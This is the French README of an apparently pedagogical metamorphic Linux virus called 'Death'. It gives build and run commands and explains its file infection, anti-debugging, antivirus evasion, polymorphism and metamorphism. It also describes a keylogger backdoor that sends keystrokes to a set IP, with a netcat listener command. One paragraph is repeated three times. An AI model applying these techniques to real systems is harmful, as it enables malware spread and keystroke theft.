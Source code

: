 # Death

[@arobion][arobion]

```
Sommaire:
  I	  - Usage
  II	- Description
  III	- Fonctionement
          - Infection
            - Entry-Point Obscuring (EPO) technique
           - Insertion
          - Obfuscation
            - Anti debug
              - Anti breackpoint
              - Anti ptrace
              - Anti step by step
             - Section header obfuscation
              - Verification si un anti-virus
             - Close EPO
            - Polymorphisme
            - Metamorphisme
          - Backdoor
```
> ATTENTION : Ce projet est uniquement à **but pedagogique**.

## I - Usage

```shell
$> make
$> sh ./scripts/create_dir.sh #crée le dossier /tmp/test1 et /tmp/test2, copie les binaires ls, python, bash de /bin
$> ./death #infecte les deux dossiers
$> sh ./scripts/check.sh	#verifie si il y a des binaires infecté dans /tmp/test1 et /tmp/test2
$> sh ./scripts/infect.sh	#copie /tmp/test1/ls -> ./infected, recree le dossier /tmp/test1 et /tmp/test2, copie les binaires ls, python, bash de /bin et les infectes à partir de ./infected

#pour l'utilisation de la backdoor:
#modifier l'adresse IP dans ./src_s/anti_data.s
#être en root et lancer ./infected
$> sudo ./infected
#sur le poste qui a cette adresse IP lancer la commande
$> nc -l 5678 > keylogger.txt
#pour traduire les touches
$> python3 translate.py keylogger.txt
```

## II - Description

Ce projet est un virus metamorphique, qui est l'aboutissement de plusieurs projets:
- **WOODY-WOOPACKER**: Projet consistant à realiser un packer de elf64
- **FAMINE**: Projet consistant à crée un virus basique qui à pour but de simplement laisser une trace dans certains fichiers contenu dans un dossier spécifique
- **PESTILENCE**: Projet consistant à crée un virus obfusqué
- **WAR**: Projet consistant à crée un virus polymorphique

## III - Fonctionement

### Infection:
  - **Entry-Point Obscuring (EPO) technique**:
  
    Cette technique d'infection consiste à ouvrir plusieurs portes dans le binaire infecté, en remplacant dans celui-ci les appels de certaines fonctions par un jump sur notre virus et d'y revenir ensuite à la fin de l'execution de notre virus.
    Pour ce faire nous avons decidé d'infecter un binaire si il a plus de 50 ```call``` valides. C'est a dire une fonction commencant par le prolog ou alors si elle fait partie de la ```GOT```.
  - **Insertion**:
  
    Nous placons une partie de notre virus dans le padding de la section ```.text``` et le reste apres le ```.bss```.

### Obfuscation:

  #### Anti-debug:
  - **Anti breakpoint**:
      
      Lors du lancement de la routine d'infection, nous allons effectuer un ```hash``` de la partie de notre code qui permet le dechiffrement du ```payload```, puis nous allons utiliser ce ```hash``` en tant que clé de déchiffrement du ```payload```, qui, à la fin du déchiffrement aura une certaine valeure à laquelle nous ajoutons une autre valeure ( determinée lors de l'infection) qui correspond a l'adresse du debut du ```payload```.
      
      Ainsi, l'insertion d'un breakpoint corromp le ```hash``` ce qui entraine une mauvaise clé de déchiffremment ainsi qu'une mauvaise adresse du ```payload```.
  
  - **Anti ptrace**:
      
      Au lancement de la routine d'infection sur un binaire infecte, nous créons un enfant avec la commande ```fork```.
      
      Dans cet enfant nous essayons d'attacher le parent avec commande ```ptrace```, si l'attachement ne fonctionne pas nous arretons la routine d'infection.
      
      Si l'attachement fonctionne, nous allons dans l'enfant faire excuter la partie hash du père et récupérer cette valeur.
      
      Ensuite dans l'enfant nous allons executer la partie déchiffrement, et nous allons faire ```jump``` le parent à l'adresse obtenue.
  
  - **Anti step-by-step**:
      
      Vérification du Time-Stamp Counter grâce à l'insctrution ```rdtsc```.
      
      Vérification du ```RFLAGS``` ```TF``` grâce à l'insctruction ```pushfq```.
      
  - **Section header obfuscation**:
  
      Nous corrompons la section header pour ne plus avoir d'informations sur le binaire infecté.
      
  - **Verification de certains processus**:
  
      Nous recherchons si il y a un process avec le nom ```inhibitor```, si il est actif nous ne lancons pas notre virus.
      
  - **Close EPO**:
      
      Après le premier passage dans notre virus nous refermons les ```EPO``` pour ne plus repasser dans notre virus jusqu'à la fin de l'exécution du programme.
  
  #### Polymorphisme:
  Notre polymorphisme est basé sur un ```fingerprint``` unique, généré lors de l'infection du fichier.
  
  Ce fingerprint est obtenu grâce à un système de couplage ```index-fingerprint```, qui permet d'assurer un contrôle algorithmique de la génération du ```fingerprint```.
  
  Ce fingerprint est obtenu grâce à un système de couplage ```index-fingerprint```, qui permet d'assurer un contrôle algorithmique de la génération du ```fingerprint```.
  
  Grâce à ce fingerprint, nous obtenons des clés unique, nous permettant d'effectuer un chiffrement du ```payload``` different à chaque infection.
  
  Ce fingerprint est obtenu grâce à un système de couplage ```index-fingerprint```, qui permet d'assurer un contrôle algorithmique de la génération du ```fingerprint```.
  
  Chaque fonction du ```Payload``` est chiffrée grace à une clé unique issue d'un assemblage du fingerprint et du hash de cette fonction. 
  
  Lors de l'execution du ```Payload```, chaque fonction est ainsi déchiffrée avant son execution, puis rechiffrée des la fin de son execution, ce qui permet d'assurer une bonne protection contre l'analye dynamique.
  #### Metamorphisme:
  
   Nous avons dispatché dans la partie du virus non polymorphique des ```placeholder```.
   Nous les remplacons par différentes instructions, en fonction d'un motif généré à partir du ```fingerprint```.
    
| Exemples d'instructions | | | | | | 
| ------ | ------ | ------ | ------ | ------ | ------ |
| push rax  | nop | inc rax | dec rax | nop | push rax |
| nop | push rax | dec rax | inc rax | nop | pop rax |
| nop | pop rax | . | . | push rax | nop |
| pop rax | nop | . | . | pop rax | nop |

### Backdoor:
  La backdoor est un keylogger qui envoie les touches sur une adresse IP renseignée dans ```./srcs_s/anti_data.s``` sur le port ```5678```.




[arobion]: <https://github.com/arobion>
